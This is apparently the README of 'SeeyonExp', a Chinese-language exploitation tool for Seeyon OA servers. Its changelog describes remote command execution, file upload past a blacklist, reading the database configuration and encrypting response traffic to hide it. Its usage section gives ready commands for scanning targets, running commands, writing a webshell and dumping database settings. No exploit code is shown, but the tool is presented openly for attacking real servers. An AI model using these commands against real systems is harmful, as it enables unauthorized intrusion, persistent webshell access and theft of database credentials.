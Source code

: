 # SeeyonExp

### 0x00 开发日志

V0.6 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

V0.5 增加数据库配置文件读取功能V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

v0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

V0.2 命令可以在windows与Linux下执行，并支持https

V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan 

http/https://xxxx.com:port/seeyon 执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext